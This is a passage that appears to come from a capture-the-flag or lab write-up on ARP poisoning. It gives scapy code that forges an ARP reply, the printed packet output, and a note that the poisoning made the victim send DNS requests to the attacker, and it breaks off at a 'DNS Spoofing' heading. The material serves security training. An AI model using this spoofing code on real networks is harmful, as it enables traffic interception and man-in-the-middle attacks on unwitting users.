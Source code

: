 ```
  pdst      = 10.6.6.35 --
```
### Testing
This ARP packet was tested by constructing it via `scapy` and printing it make sure it matched the expected value above.
Sample constructed with the following code
```python
if __name__ == "__main__":
    a = ARP(pdst="10.6.6.35")

    a.op = 2 # arp reply
    a.plen = 4
    a.hwlen = 6
    a.ptype = 2048
    a.hwtype = 1
    a.hwsrc = "02:42:0a:06:00:03"
    a.psrc = "10.6.0.3"
    a.pdst = "10.6.6.35"
    a.hwdst = "4c:24:57:ab:ed:84"
    a.show()
```
```bash
###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at
  hwsrc     = 02:42:0a:06:00:03
  psrc      = 10.6.0.3
  hwdst     = 4c:24:57:ab:ed:84
  pdst      = 10.6.6.35
```

These changes have been replicated into [arp_res.py](arp_res.py) python script.
### Results
After poisoning the ARP request/response flow, the victim then issues a DNS request to the poisoned address. This validates the first guess during enumeration that DNS spoofing would be required.
![ARP Poisoning](img/arp_poison_success.png)
## DNS Spoofing